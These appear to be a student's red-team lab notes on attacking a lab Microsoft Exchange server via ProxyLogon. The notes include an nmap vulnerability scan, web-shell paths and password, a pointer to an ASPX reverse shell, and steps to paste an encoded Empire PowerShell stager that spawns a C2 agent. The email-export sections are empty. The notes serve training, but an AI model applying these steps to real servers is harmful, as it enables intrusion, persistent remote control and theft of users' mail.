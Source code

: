 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users


### Export User Emails


### Read User Emails


#### Notes | Bonus


## Conclusion